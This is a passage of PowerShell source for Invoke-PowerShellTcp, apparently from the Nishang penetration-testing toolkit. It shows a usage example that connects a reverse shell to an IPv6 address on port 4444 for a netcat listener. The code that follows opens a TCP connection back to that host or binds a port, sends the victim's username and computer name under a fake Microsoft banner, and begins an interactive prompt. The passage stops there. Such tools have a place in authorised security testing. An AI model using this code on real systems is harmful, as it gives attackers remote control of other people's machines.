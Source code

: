 ```
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port.

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        }

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

```